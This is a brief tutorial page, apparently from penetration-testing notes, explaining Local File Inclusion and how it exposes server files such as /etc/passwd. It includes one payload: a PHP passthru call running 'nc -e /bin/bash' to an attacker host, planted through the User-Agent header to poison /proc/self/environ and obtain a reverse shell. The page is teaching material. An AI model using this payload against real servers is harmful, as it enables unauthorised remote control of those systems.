



# Local File Inclusion

<figure><figcaption></figcaption></figure>

## What is a Local File Inclusion?

* This vulnerability able the attacker to see files from inside the server like the **/etc/passwd** or others.

## Quick Example

<figure><figcaption></figcaption></figure>

* In the following image we see that changing the file that the parameter page is loading we can see other files outside **www directory**, and we can try to exploit them to gain access with a shell.

<figure><figcaption>
Gaining Acces LFI
</figcaption></figure>

* Right here you see that pointing to **/proc/self/environ**, and **modifying our **_**user agent**_** to:**
* &#x20;**\<? passthru("nc -e /bin/bash \<host> \<port>"); ?>**
* Foward the requests and you will see that you will get a shell.

<figure><figcaption></figcaption></figure>

Examples and Info:


[directory-traversal](../../welcome/writeups/portswigger/directory-traversal/)

